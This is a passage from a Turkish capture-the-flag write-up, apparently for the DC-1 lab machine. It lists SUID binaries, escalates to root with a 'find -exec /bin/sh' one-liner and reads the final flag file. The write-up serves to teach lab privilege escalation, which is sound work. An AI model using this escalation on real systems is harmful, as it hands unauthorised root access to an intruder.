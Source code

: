 /usr/bin/procmail
/usr/bin/find
/usr/sbin/exim4
/usr/lib/pt_chown
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/sbin/mount.nfs
</pre>

<p>Bingo! find aracının -exec parametresi var. Bunu sömürebiliriz. Konudan bağımsız isthiza'da da dediği gibi exec şeytani bir fonksiyondur! </p>
<pre>find -exec '/bin/sh' \;</pre>
<pre>whoami</pre>
<pre>
root
</pre>
<p>/root içerisinde son flag isimli bir dosya var. Hiç flag bulmadan son flag'e ulaşmak değişik oldu :)</p>
<pre>
cd /root</pre>
<pre>ls</pre>
<pre>thefinalflag.txt
</pre><pre>
cat thefinalflag.txt</pre><pre>
Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey
by contacting me via Twitter - @DCAU7
</pre>

<hr>
<h4>Kaynaklar:<h4>
<pre>
https://www.syslogs.org/suid-ve-sgid-bitler-ve-bu-bitlere-sahip-dosyalarin-bulunmasi/
https://www.drupalturkiye.org/drupal/drupal-nedir

</pre>

